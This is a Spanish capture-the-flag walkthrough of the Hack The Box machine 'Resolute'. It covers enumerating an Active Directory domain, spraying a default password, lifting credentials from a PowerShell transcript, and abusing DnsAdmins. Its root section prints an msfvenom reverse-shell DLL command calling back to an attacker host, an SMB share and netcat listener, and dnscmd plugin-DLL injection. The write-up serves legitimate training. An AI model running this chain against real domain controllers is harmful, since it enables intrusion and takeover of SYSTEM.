



# HTB - Resolute

## Task 1

**What is the domain name that Resolute is acting as a domain controller for?**

Lo primero que hacemos, como siempre, es lanzar un `nmap` para ver qué puertos tenemos abiertos.

Vemos bastantes puertos típicos de un Active Directory (53, 88, 389, 445, 464, 3268...), así que usamos `netexec` por SMB para que nos identifique el dominio directamente.



El dominio es **megabank.local**.

---

## Task 2

**What is the username that was created using a default password?**

Antes de nada intentamos enumerar los usuarios del dominio contra SMB usando una sesión nula (null session), por si el DC nos la permite.


La sesión nula funciona y conseguimos la lista completa de usuarios del dominio junto con su descripción. Si nos fijamos en la descripción del usuario `marko`, pone literalmente:

> Account created. Password set to Welcome123!

Compruebo primero si `marko` sigue teniendo esa contraseña, y no es el caso. Como esa contraseña puede haberse usado como "contraseña por defecto" al crear otras cuentas de la misma forma, hago un password spray con todos los usuarios enumerados y esa misma contraseña.


El spray funciona: el usuario **melanie** tiene esa contraseña.

La respuesta a esta tarea es **marko**, ya que es la cuenta que se creó originalmente con esa contraseña por defecto (y que después, aparentemente, fue cambiada). Si más adelante conseguimos acceso de administrador, se podría confirmar cuándo se cambió.

---

## Task 3

**Which user on Resolute uses the default password?**

Ya respondida en la tarea anterior: es **melanie**, la cuenta que todavía conserva la contraseña `Welcome123!`.

---

## Submit User Flag

**Submit the flag located on the melanie user's desktop.**

Con las credenciales de melanie nos conectamos por `evil-winrm` y extraemos la flag de su escritorio.

```bash
evil-winrm -i 10.129.96.155 -u melanie -p 'Welcome123!'
```

---

## Task 5

**What is the full path to the file containing history logs for a PowerShell session?**

Como no sabemos de entrada dónde guarda Windows el histórico de PowerShell por defecto, lo primero es buscar dónde se almacena.


Esa ruta (la de PSReadLine) es la que se genera automáticamente con cada sesión interactiva, pero al comprobarla en la máquina no encontramos nada ahí, ni en las carpetas habituales donde se suele buscar este tipo de artefactos.

Windows oculta carpetas "raras" con el atributo Hidden, así que hay que forzar el listado con `dir -force` en cada directorio para no dejarnos nada por el camino. Repitiendo esto por las distintas carpetas de la unidad `C:` encontramos una llamada `PSTranscripts`, que no es la ubicación por defecto de PSReadLine sino el resultado de un *transcript* de PowerShell activado manualmente (o por GPO) con `Start-Transcript`, que registra en texto plano todo lo que ocurre en la sesión.


La ruta completa es:

```
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

---

## Task 6

**What is the ryan user's password?**

Dentro del transcript encontramos, entre otras, dos líneas que llaman la atención:

**Línea 1 — ruido automático del sistema (no la escribió ryan):**

```powershell
-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
```

Es la reconstrucción interna del prompt de la sesión remota, generada automáticamente por PowerShell; no aporta nada relevante.

**Línea 2 — ejecutada por ryan, con un error de sintaxis:**

```powershell
cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

Ryan quiso mapear una unidad de red con `net use`, pero se olvidó de anteponer `/user:` al nombre de usuario, por lo que el comando falló y dejó sus credenciales expuestas en texto plano dentro del transcript:

```
ryan : Serv3r4Admin4cc123!
```

---

## Task 7

**What standard Microsoft group is the ryan user a member of that has to do with administration of the MEGABANK domain?**

Con las credenciales de ryan nos conectamos por `evil-winrm` y comprobamos a qué grupos pertenece.

```bash
evil-winrm -i 10.129.96.155 -u ryan -p 'Serv3r4Admin4cc123!'
```


Ryan pertenece al grupo **MEGABANK\Contractors**, y este a su vez es miembro de **MEGABANK\DnsAdmins**. `DnsAdmins` es un grupo estándar y predeterminado de Active Directory (se crea junto con el rol DNS al instalarlo en un Domain Controller), cuyo propósito es delegar la administración del servicio DNS del propio DC.

---

## Task 8

**What is the name of the binary in System32 that allows for configuring DNS on the local system?**

Pertenecer a `DnsAdmins` es interesante porque este grupo tiene, por diseño, permisos para modificar la configuración del servicio DNS a través del registro, incluida una clave (`ServerLevelPluginDll`) que le indica al servicio qué DLL cargar al arrancar. Si controlamos esa clave, podemos conseguir que el servicio DNS (que corre como `NT AUTHORITY\SYSTEM`) cargue y ejecute una DLL nuestra.

El binario que se usa para leer y modificar esa configuración desde `System32` es **dnscmd.exe**.



Lo confirmamos en LOLBAS, donde `dnscmd.exe` aparece catalogado precisamente para esta técnica (ejecución remota de una DLL arbitraria a través del servicio DNS).


---

## Submit Root Flag

Con `dnscmd.exe` identificado como el binario a abusar, montamos la escalada completa.

Primero generamos una DLL maliciosa con `msfvenom` que nos abra una reverse shell:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.98 LPORT=443 -f dll -o mal_dns.dll
```


Levantamos un servidor SMB con impacket para servir la DLL, y un listener con netcat para recibir la conexión:

```bash
impacket-smbserver share $(pwd) -smb2support
rlwrap nc -nlvp 443
```

Y con `dnscmd.exe`, desde la sesión de ryan, apuntamos la clave `serverlevelplugindll` a nuestra DLL compartida por SMB:

```powershell
dnscmd.exe /config /serverlevelplugindll \\10.10.15.98\share\mal_dns.dll
```

```
Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```



El comando se ejecuta correctamente, pero la DLL no se carga todavía: la clave `ServerLevelPluginDll` solo se lee cuando el servicio DNS arranca, así que hace falta reiniciarlo para que el cambio surta efecto. Como `ryan` hereda permisos de administración del servicio DNS a través de `DnsAdmins`, puede reiniciarlo sin problema:

```powershell
sc.exe stop dns
sc.exe start dns
```

Al arrancar de nuevo, el servicio carga nuestra DLL desde el share SMB, ejecuta el payload y recibimos la conexión en el listener, esta vez con privilegios de `NT AUTHORITY\SYSTEM`.


Con esta shell accedemos al escritorio del Administrador y leemos la flag final.


Con esto, la máquina Resolute queda completada.
